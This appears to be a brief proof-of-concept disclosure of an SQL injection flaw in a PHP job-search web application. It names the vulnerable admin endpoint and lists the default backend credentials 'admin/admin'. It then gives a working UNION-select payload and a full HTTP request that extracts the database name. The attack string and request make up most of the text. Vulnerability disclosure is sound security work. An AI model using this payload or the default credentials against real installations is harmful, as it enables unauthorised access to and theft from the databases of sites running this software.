 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/company/index.php?view=edit&id=

Vulnerability location: /eris/admin/company/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/company/index.php?view=edit&id=-3%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849041-4b0d81d6-8f1f-4a07-9166-ae5e670e336d.png)

![image](https://user-images.githubusercontent.com/54017627/170848995-09be03d4-6073-4810-afbc-053ede963d39.png)
